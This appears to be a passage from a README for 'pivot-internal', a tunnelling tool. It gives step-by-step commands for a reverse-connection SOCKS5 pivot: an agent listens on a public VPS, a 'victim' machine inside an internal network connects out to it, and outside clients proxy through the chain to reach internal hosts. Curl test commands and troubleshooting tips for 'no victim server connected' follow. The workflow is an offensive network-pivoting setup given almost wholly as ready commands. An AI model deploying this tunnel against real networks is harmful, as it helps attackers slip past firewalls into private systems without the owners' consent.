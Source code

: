 #### Agent-Based Reverse Connection Workflow

1. **Deploy agent server on public VPS (103.12.0.1)** - Agent waits for victim and clients:
   ```bash
   ./pivot-internal agent -key MySecretKey123 -l :1080 -i :8000
   ```

2. **Deploy victim server on internal network** - Victim connects out to agent:
   ```bash
   ./pivot-internal server -key MySecretKey123 -c 103.12.0.1:8000
   ```

3. **Connect clients to agent from external machines**:
   ```bash
   # Client 1
   ./pivot-internal client -key MySecretKey123 -r 103.12.0.1:1080 -l :1081
   
   # Client 2
   ./pivot-internal client -key MySecretKey123 -r 103.12.0.1:1080 -l :1082
   ```

### Testing the Setup

#### Agent Mode Test Commands
```bash
# Test with curl through the proxy chain
curl -x socks5h://127.0.0.1:1081 https://1.1.1.1/cdn-cgi/trace -v

# Test internal network access (example)
curl -x socks5h://127.0.0.1:1081 http://internal-server.local/

# Test with multiple clients simultaneously
curl -x socks5h://127.0.0.1:1081 https://httpbin.org/ip &
curl -x socks5h://127.0.0.1:1082 https://httpbin.org/ip &
```

#### Traditional Mode Test Commands
```bash
# Test direct connection
curl -x socks5h://127.0.0.1:1081 https://1.1.1.1/cdn-cgi/trace -v
```

### Troubleshooting

**Common Issues:**

1. **"No victim server connected"** - Ensure victim server is running and connected to agent
2. **"Connection refused"** - Check firewall settings and port availability
3. **RC4 encryption errors** - Ensure all components use the same encryption key
4. **SOCKS5 proxy errors** - Verify client application supports SOCKS5h (DNS resolution through proxy)

**Log Analysis:**
- Agent logs show client and victim connections
- Victim logs show SOCKS5 request handling
- Client logs show proxy server status
